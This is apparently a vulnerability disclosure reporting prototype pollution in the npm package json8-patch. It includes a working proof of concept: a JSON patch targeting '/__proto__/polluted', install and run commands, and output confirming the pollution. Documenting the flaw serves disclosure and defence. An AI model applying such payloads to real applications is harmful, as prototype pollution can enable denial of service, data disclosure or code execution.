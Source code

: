 # Description

`json8-patch` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var json8Patch = require("json8-patch")
var obj = {}
const patch = [{op: "add", path: "/__proto__/polluted", value: "Yes! Its Polluted"}];
console.log("Before : " + obj.polluted);
json8Patch.apply(obj, patch);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i json8-patch # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
